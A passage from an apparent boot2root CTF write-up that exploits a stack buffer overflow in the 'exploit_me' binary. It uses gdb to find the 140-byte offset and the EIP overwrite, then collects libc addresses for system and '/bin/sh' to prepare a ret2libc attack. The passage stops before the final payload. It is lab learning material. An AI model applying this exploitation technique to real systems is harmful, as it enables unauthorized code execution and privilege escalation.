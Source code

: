 The offset to overflow is 140, try it

```
(gdb-peda)$ r $(python2 -c 'print "A"*140+"BBBB"')
Starting program: /home/nico/42/boot2root/zaz/exploit_me $(python2 -c 'print "A"*140+"BBBB"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
...
EIP: 0x42424242 ('BBBB')
....
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

Yes!

No ASLR, go exploit with a ret2libc like a warrior. For this, we need the addresses of the function `system`, `exit` and a string `/bin/sh`

```
(gdb) info proc map
process 2673
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
	 0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58
1 pattern found.
```

The address of `"/bin/sh"` is `0xb7f8cc58`

```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xb7e6b060  __libc_system
0xb7e6b060  system
0xb7f49550  svcerr_systemerr
```
